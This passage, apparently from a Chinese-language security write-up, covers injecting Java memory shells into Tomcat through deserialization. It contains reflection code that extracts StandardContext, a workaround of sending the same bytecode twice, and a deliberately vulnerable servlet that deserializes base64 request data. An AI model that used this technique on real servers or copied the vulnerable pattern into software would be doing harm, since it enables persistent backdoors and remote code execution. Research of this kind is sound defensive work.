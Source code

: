 ```java
                Field applicationContextFacadeField = applicationContextFacade.getClass().getDeclaredField("context");
                applicationContextFacadeField.setAccessible(true);
                ApplicationContext applicationContext = (ApplicationContext) applicationContextFacadeField.get(applicationContextFacade);
                Field standardContextField = applicationContext.getClass().getDeclaredField("context");
                standardContextField.setAccessible(true);
                StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
                System.out.println(servletRequest);
            }

        }
```

显然threadLocalReq.get()取到的是RequestFacade，和jsp内置对象一样，就可以回到上面已有request继续利用

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250225194511432.png)

但是上面的方法有两个缺点：

1. 在调用ApplicationFilterChain类的internalDoFilter()函数时，调用到了Shiro的ShiroFilter过滤器类、其中会调用到CookieRememberMeManager类的getRememberedSerializedIdentity()函数来获取cookie内容并进行反序列化操作，这个过程都是还在调用应用的doFilter()的时候就触发了，而间于Filter Chain执行之后、调用Servlet实例之前的Request和Response的设置就不起作用了
2. 需要访问两次指定的servlet才能顺利打入内存马，问题是反序列化打TemplatesImpl一般都是只执行一次static块，如何访问两次servlet？

针对第一个问题，在方法3进行解答

针对第二个问题，我刚刚想到一个很简单的办法，虽然一个web应用程序下有好几个不同的servlet映射，但是它们都共用同一个ApplicationFilterChain和StandardContext，反序列化打一个接口同一个字节码两遍即可。

现在我构造一个用CC打入servlet马的例子：

一个有CC入口的漏洞环境：

```java
@WebServlet("/Vuln")
public class vulnServlet  extends HttpServlet {
    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        byte[] bytes= Base64.getDecoder().decode(req.getParameter("data"));
        ByteArrayInputStream BAIS=new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream=new ObjectInputStream(BAIS);
        try
        {
            System.out.println(objectInputStream.readObject());
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
